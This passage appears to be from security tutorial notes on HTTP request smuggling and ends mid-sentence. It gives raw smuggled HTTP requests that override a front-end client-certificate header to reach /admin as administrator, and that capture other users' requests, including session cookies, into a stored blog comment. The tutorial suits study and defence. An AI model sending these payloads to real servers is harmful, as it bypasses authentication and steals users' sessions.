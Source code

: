 ## Bypassing client authentication
If frontend appends some simple headers for user authentication, we possibly can override them with request smuggling. We discover front-end headers as explained in previous section and in next smuggled request we are overriding them:
```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```
## Capturing other users' requests
If the application contains any kind of functionality that allows you to store and later retrieve textual data, you can potentially use this to capture the contents of other users' requests. These may include session tokens or other sensitive data submitted by the user. Suitable functions to use as the vehicle for this attack would be comments, emails, profile descriptions, screen names, and so on.  
To perform the attack, you need to smuggle a request that submits data to the storage function, with the parameter containing the data to store positioned last in the request. For example, suppose an application uses the following request to submit a blog post comment, which will be stored and displayed on the blog: 
```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```
Next we can smuggle request with `comment=` placed in last position and extra long content-length:
```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```
The Content-Length header of the smuggled request indicates that the body will be 400 bytes long, but we've only sent 144 bytes. In this case, the back-end server will wait for the remaining 256 bytes before issuing the response, or else issue a timeout if this doesn't arrive quick enough. As a result, when another request is sent to the back-end server down the same connection, the first 256 bytes are effectively appended to the smuggled request  